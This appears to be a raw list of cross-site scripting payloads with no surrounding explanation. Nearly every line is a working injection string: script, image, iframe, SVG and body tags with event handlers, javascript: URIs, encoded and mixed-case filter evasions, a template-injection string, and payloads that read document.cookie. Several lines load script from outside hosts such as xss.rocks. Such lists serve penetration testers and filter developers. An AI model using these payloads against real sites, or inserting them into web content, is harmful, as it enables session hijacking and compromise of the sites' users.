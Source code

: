 "<img src='x' onerror='alert(10)' />"
https://brutelogic.com.br/poc.svg
http://xss.rocks/scriptlet.html
javascript:alert(document.cookie)
poc.svg = <svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>
"><script>alert(1)</script>
'or<script>alert(1)</script>
'or<img src=0 onerror=alert('1')>
<script <script>>alert('test')</script>  
<audio src/onerror=alert('test')>
<iframe src=javascript:alert('test')>
<iframe src="javascript:alert(test)">
<img src=x onerror=alert(test)>
';alert(test); //
<body onmouseover="print()">
<body onclick=print()>
<body onmessage=print()>
<iframe onload=print()></iframe>
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<IMG """><SCRIPT>alert(document.cookie)</SCRIPT>"\>
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
<<SCRIPT>alert(document.cookie);//\<</SCRIPT>>
<iframe src=http://xss.rocks/scriptlet.html <
</script><script>alert(document.cookie);</script>
</TITLE><SCRIPT>alert(document.cookie);</SCRIPT>
<BODY ONLOAD=alert(document.cookie)>
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>
<script>'-alert(1)-'</script>
'-alert(1)-'
></select><img%20src=1%20onerror=alert(1)>
{{$on.constructor('alert(1)')()}}
\"-alert(1)}//
<img src=1 onerror=print()>
"-top['al\x65rt']('sailay')-" 
<pre id=p style=background:#000><svg onload='setInterval(n=>{for(o=t++,i=476;i--;o+=i%30?("0o"[c=0|(h=v=>(M=Math).hypot(i/30-8+3*M.sin(t/8/v),i%30/2-7+4*M.cos(t/9/v)))(7)*h(9)*h(6)/32]||".").fontcolor(c>2):"\n");p.innerHTML=o},t=1)'>
<img src="" onerror="innerHTML=decodeURIComponent.call`${location.hash}`" "="">
<img src="" onerror="location=/javascript:/.source+location" "="">
<img src="" onerror="window.onerror=alert;throw 1337" "="">
<img src="" onerror="alert&1par;1337&rpar;" "="">
<img src="" onerror="alert`1337`" "="">
javascript:alert(document.cookie)
"><img src=x onerror=alert(document.domain)>